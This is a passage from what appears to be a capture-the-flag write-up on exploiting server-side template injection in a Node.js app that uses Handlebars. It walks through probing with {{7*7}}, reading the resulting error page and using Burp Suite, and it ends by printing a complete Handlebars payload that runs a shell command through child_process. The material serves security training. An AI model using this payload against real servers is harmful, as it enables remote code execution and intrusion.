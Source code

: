 #### #{7*7}


The server did not execute the expression and only reflected it back to us. Let's move on to the second
payload, which is {{7*7}}.

After the payload is submitted, an error page pops up.


This means that the payload was indeed detected as valid by the template engine, however the code had
some error and was unable to be executed. An error is not always a bad thing. On the contrary for a
Penetration Tester, it can provide valuable information. In this case we can see that the server is running
from the /root/Backend directory and also that the Handlebars Template Engine is being used.

## Exploitation

Looking back at Hacktricks, we can see that both Handlebars and Node.js are mentioned, as well as a
payload that can be used to potentially run commands on a Handlebars SSTI.

To determine if this is the case, we can use Burpsuite to capture a POST request via FoxyProxy and edit it

to include our payload. We provide a great module on Using Web Proxies. If you have not used BurpSuite
before it will provide a lot of valuable information.

After BurpSuite has been started and the web proxy correctly configured, submit the payload again.
BurpSuite should capture the request and allow you to edit it.


Before we modify the request, let's send this HTTP packet to the Repeater module of BurpSuite by

pressing CTRL+R. Now let's grab a payload from the section that is titled "Handlebars (NodeJS)" in the
HackTricks website.

The above code might seem daunting to understand, but for this writeup our main focus will be the
following line.

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
```
{{this.push "return require('child_process').exec('whoami');"}}
```
